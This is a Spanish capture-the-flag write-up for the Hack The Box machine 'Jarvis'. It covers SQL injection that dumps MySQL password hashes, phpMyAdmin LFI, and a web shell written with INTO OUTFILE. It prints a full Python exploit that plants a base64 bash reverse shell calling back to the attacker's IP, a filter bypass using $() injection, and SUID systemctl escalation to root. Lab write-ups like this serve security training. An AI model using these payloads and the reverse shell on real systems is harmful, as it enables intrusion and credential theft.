```yaml
---
title : Máquina|Jarvis|HTB|SQL|SUID
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/Jarvis/Jarvis0.png" style="border-radius: 190px; width: 169px" alt="Jarvis">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Media </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/194" style="color: lightblue;">Jarvis</a></p>
    </div>
</div>

<h2><font color="white"><center># Jarvis</center></font></h2>
<br>


* <p>Vemos que es una maquina Linux a lo que nos enfrentamos por el TTL.</p>
>
<img src="imgs/Jarvis/Jarvis1.png">

* <p> Empezamos enumerando los puertos del servidor.</p>
>
<img src="imgs/Jarvis/Jarvis2.png">

* <p> Ahora procedemos a enumerar las tecnologías.</p>
>
<img src="imgs/Jarvis/Jarvis3.png">

* <p> Enumeramos directorios y archivos activos de la pagina web.</p>
>
<img src="imgs/Jarvis/Jarvis4.png">
>

* <p> Observamos el phpmyadmin y probamos credenciales por defecto.</p>
>
<img src="imgs/Jarvis/Jarvis5.png">

* <p> Al estar enumerando la pagina mire que era susceptible a un ataque de inyección sql.</p>
>
<img src="imgs/Jarvis/Jarvis6.png">
>
`union select 1,2,group_concat(User,0x3a,Password),4,5,6,7 from mysql.user-- -`

* <p> Procedemos a descifrar el hash que es MySQL 4.1, y sacamos como resultado la credencial: imissyou</p>
<img src="imgs/Jarvis/Jarvis7.png">


* <p> Procedemos a conectarnos en el panel previamente descubierto anteriormente.</p>
>
<img src="imgs/Jarvis/Jarvis8.png">

* <p> Procedemos a ver en searchsploit si hay exploits dedicados a esta version de phpmyadmin 4.8.0, vemos que puede ser susceptible a LFI.</p>
>
<img src="imgs/Jarvis/Jarvis9.png">
* <p> Vemos la posterior ruta en la que este exploit acude para poder tener un LFI y observamos la siguiente url</p>
>
<img src="imgs/Jarvis/Jarvis10.png">

* <p> Alistamos el /etc/passwd y vemos que si es vulnerable a un LFI</p>
>
<img src="imgs/Jarvis/Jarvis11.png">

* <p>No vemos nada relevante asi que procedemos a cargar un archivo por medio de la inyección SQL en la pagina web </p>
>
<img src="imgs/Jarvis/Jarvis12.png">

* <p>Vemos que nos interpreta el código.</p>
>
<img src="imgs/Jarvis/Jarvis13.png">

* <p>Posteriormente nos creamos un "exploit" para que nos automatice todo, lo que hace es codificar en base64 una reverse Shell, lanza la petición para que se aloje en el directorio 10.10.10.143/rem.php para posteriormente lanza otra petición a ese directorio del sistema mientras nos ponemos en escucha por el puerto 5550.</p>

```python
#!/usr/bin/python3
import requests
import sys
import signal
import time
import threading
from pwn import *

def salida(sig, frame):
	print("saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, salida)

#Cree su propia Shell base64 : echo "/bin/bash -i >& /dev/tcp/IP/5550 0>&1" | base64 
base64 = "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIvNTU1MCAwPiYxCg=="
port = 5550
url_ = "http://10.10.10.143"
file = "rem.php"

create_file = "http://10.10.10.143/room.php?cod=10%20union%20select%201,2,%22%3C?php%20system(%27echo%20{base64}%20|base64%20-d%20|bash%20%27);?%3E%22,4,5,6,7%20into%20outfile%20%22/var/www/html/{file}%22--%20-"
def pwned_shell():
    get_file = requests.get(create_file)
    get_shell = requests.get(f"{url_}/{file}")

try:
    threading.Thread(target=pwned_shell, args=()).start()
except Exception as e:
    log.error(str(e))

server = listen(port, timeout=20).wait_for_connection()
server.interactive()

```

* exploit.py
>
<img src="imgs/Jarvis/Jarvis15.png">

* <p> Procedemos a ejecutar el exploit. </p>

<video width="600" autoplay loop muted style="position: relative; left:90px; width: 700px;border-radius: 12px;">
  <source src="imgs/Jarvis/video.mp4" type="video/mp4">
  Tu navegador no soporta la reproducción de video.
</video> 

* <p> Como quiero crearme una full tty no usare este exploit, sino que me pondré en escucha no netcat por el puerto 5550 y ejecuto el script.</p>
>
<img src="imgs/Jarvis/Jarvis16.png">

* <p> Procedemos cone el tratemiento de la Shell para tener una full tty.</p>
>
<img src="imgs/Jarvis/Jarvis18.png">
<img src="imgs/Jarvis/Jarvis19.png">
<img src="imgs/Jarvis/Jarvis21.png">

* <p>En este punto podríamos ver la flag de jarvis.</p>
>
<img src="imgs/Jarvis/Jarvis35.png">

* <p>Vemos que tenemos permiso para ejecutar un archivo en python siendo el usuario pepper.</p>
>
<img src="imgs/Jarvis/Jarvis36.png">

* <p>EL archivo python no esta del todo bien sanitizado. no me permite ejecutar ['&', ';', '-', '`', '||', '|'] pero no necesariamente tengo que usar estos caracteres para inyectar comandos y escalar privilegios, que paso si ahora ejecuto </p>
>
<img src="imgs/Jarvis/Jarvis22.png">

* <p>Vemos que al inyectar en el campo un $(echo "2"),recibimos la traza ICMP a mi interfaz 10.10.16.2 tun0.</p>
>
<img src="imgs/Jarvis/Jarvis23.png">

* <p>Si me hago una reverse Shell no podría ganar acceso al sistema por que no me permite el &, entonces para hacerle un Bypass a esta solicitud me creo un archivo temporal, en este almacenare la reverse Shell:</p>
>
<img src="imgs/Jarvis/Jarvis25.png">

* <p>Posterior mente me ejecuto el archivo. y ganamos acceso al sistema siendo pepper.</p>
>
<img src="imgs/Jarvis/Jarvis26.png">

* <p>Hacemos la Shell una full tty</p>
>
<img src="imgs/Jarvis/Jarvis27.png">

* <p>Ajustamos las filas y columnas.</p>
>
<img src="imgs/Jarvis/Jarvis30.png">

* <p>Vemos que tiene permisos SUID a systemctl lo que hace vulnerable, podemos crearnos una tarea siendo root.</p>
>
<img src="imgs/Jarvis/Jarvis31.png">

* <p>Estructura básica de una tarea systemctl</p>

```ruby
[Unit]
Description=Descripción del servicio
After=network.target

[Service]
Type=oneshot
ExecStart=/ruta/a/tu/programa

[Install]
WantedBy=multi-user.target
```

* <p>Configuramos los archivos y ganamos posteriormente acceso al sistema</p>
>
<img src="imgs/Jarvis/Jarvis33.png">

* <p>Posteriormente podemos ver la flag de root.</p>
>
<img src="imgs/Jarvis/Jarvis34.png">